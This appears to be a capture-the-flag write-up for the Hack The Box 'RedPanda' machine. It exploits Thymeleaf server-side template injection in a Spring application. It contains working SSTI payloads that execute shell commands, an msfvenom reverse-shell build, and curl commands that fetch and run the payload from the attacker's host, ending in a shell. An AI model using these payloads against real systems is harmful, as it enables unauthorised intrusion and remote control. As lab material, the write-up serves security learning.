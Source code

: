 Going to `/error` gives `Whitelabel Error Page`. Googling what is Whitelabel shows that it is from Spring MVC framework. From additional googling, it seems the server is using https://www.thymeleaf.org/ for template engine.

It is vulnerable to SSTI because searching `(7*7)` returns `49`.

Found the following cheatsheet for hacking thymeleaf (https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/).

So there are 5 expressions in total, and `Variable expresions: $` seems to be blocked. But `Selection expression: *` works fine.

From [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java), found the script to curl with SSTI, and it works.

```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.14.3")}


ghost@localhost [01:13:23] [~/Documents/hacking/tj-null-boxes/redpanda] [master *]
-> % python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [26/Oct/2022 01:13:32] "GET / HTTP/1.1" 200 -
```\\

# User

So I generated stageless reverse shell with msfvenom, download to the server and execute it back to receives reverse shell.

```bash
ghost@localhost [01:22:31] [~/Documents/hacking/tj-null-boxes/redpanda] [master *]
-> % msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f elf > shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.14.3/shell.elf -o shell.elf")}


ghost@localhost [01:23:15] [~/Documents/hacking/tj-null-boxes/redpanda] [master *]
-> % python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [26/Oct/2022 01:24:20] "GET /shell.elf HTTP/1.1" 200 -


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod +x shell.elf")}
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./shell.elf")}


ghost@localhost [01:25:01] [~/Documents/hacking/tj-null-boxes/redpanda] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.170] 50558
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)

```
